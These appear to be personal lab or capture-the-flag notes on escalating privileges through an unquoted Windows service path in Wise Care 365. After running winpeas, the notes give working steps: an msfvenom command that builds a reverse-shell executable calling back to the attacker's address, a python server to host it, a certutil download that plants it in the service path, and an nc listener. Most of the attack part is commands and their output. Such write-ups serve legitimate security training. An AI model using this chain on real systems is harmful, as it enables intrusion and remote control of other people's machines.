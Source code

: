 ```
08/14/2021  04:55 AM    <DIR>          Pictures
08/14/2021  04:54 AM    <DIR>          Saved Games
08/14/2021  04:55 AM    <DIR>          Searches
08/14/2021  04:54 AM    <DIR>          Videos
07/08/2024  07:59 PM         2,387,456 winpeas.exe
               1 File(s)      2,387,456 bytes
              16 Dir(s)  12,389,249,024 bytes free

```

executing winpeas.exe, please see the results below

![[Pasted image 20240708201429.png]]


We saw executable service

![[Pasted image 20240708201859.png]]

The `C:\Program FIles (x86)\Wise\Wise Case 365\BootTime.exe` is unquoted, it means that we can input some malicious executable files in between caus its not quoted and treat each as separately

![[Pasted image 20240708202418.png]]

#msfvenom
#injectmalware
#unquotedinjectmalware
1. Inject malware from the kali 
	- From kali execute `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.64.4 LPORT=7777 -f exe > Wise.exe`
	- Make your kali as python http server to transfer it to the `C:\Program FIles (x86)\Wise

```
┌──(root㉿kali)-[~/Downloads]
└─# cd /transfer 

┌──(root㉿kali)-[/transfer]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.64.4 LPORT=7777 -f exe > Wise.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes


┌──(root㉿kali)-[/transfer]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.64.7 - - [08/Jul/2024 17:35:48] "GET /Wise.exe HTTP/1.1" 200 -
192.168.64.7 - - [08/Jul/2024 17:35:49] "GET /Wise.exe HTTP/1.1" 200 -

```

- Now go to `C:\Program Files (x86)\Wise`then download the malware you got from kali  `certutil -utlcache -f http://192.168.64.4/Wise.exe Wise.exe`
- Stop and start the service while doing the reverseshell nc -nvlp 7777
